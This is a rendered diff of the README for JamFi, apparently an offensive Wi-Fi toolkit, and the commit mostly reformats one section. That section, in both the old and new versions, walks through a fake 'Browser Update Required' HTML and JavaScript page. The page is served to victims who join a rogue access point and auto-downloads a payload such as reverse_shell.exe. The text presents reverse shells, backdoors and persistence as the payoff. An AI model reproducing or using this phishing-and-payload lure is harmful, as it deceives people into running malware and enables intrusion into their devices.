

Before and after one commit to ekomsSavior/Jam_fi, a Markdown page: README.md, the part around the change. GitHub-like rendering.

`````diff
--- a/README.md
+++ b/README.md
@@ -138,17 +138,16 @@ loot/creds.txt
 
 -------------------------------------------------------------------------------------------------------------------
 
-## 🔐 Advanced User Trick: Fake Browser Update + Payload (Optional)
-
+🔐 **Advanced Hack: Fake Browser Update + Payload (Optional)**
 JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required!
 
 Once a device connects to your Evil AP, redirect them to a custom update page by editing:
-
-loot/injection.html
+`loot/injection.html`
 
 Here’s a simple example:
 
-````<!-- loot/injection.html -->
+```html
+<!-- loot/injection.html -->
 <h2>🔒 Browser Update Required</h2>
 <p>To continue browsing, please install the latest security patch.</p>
 <button onclick="downloadUpdate()">Update Now</button>
@@ -162,10 +161,9 @@ function downloadUpdate() {
   a.click();
 }
 </script>
+```
 
-Place your payload in the loot/ folder as:
-
-fake_update.exe
+Just place your payload (like `reverse_shell.exe`) in the `loot/` folder and it will auto-download when the user clicks "Update Now".
 
 You now have a simulated Remote Code Execution (RCE) opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence depending on your setup.
 
`````
